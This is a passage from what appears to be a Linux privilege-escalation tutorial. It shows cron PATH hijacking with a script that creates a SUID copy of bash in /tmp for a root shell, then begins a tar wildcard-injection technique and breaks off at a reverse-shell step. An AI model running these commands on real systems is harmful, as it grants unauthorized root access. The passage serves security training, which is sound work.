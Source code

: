 ```
cat /etc/crontab
/etc/crontab:/PATH=/home/user/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

* We see that path variable: /home/user is searched before anywhere else.
* If we replace a new file in /home/user with the same name but put something malicious in it, we can achieve great things!

Create file found in /etc/crontab:

```
nano overwrite.sh
```

Contents of overwrite.sh:

```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

* This will create a SUID version of BASH for us in the /tmp directory

Make overwrite.sh executable:

```
chmod +x overwrite.sh
```

Wait for the cronjob to execute and apply our changes:

```
watch -n 1 ls -l /tmp
ls -l
/tmp/rootbash -p
rootbash# 
```

### Wildcards

* This one is a little weird and I personally have not seen it around, but GTFOBins has a section on it that goes into further detail.&#x20;

Use Case:

* A script that takes advantage of a binary that utilizes a wildcard.

Example:

```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

So, how do you take advantage of this?

1. Create a reverse shell with msfvenom
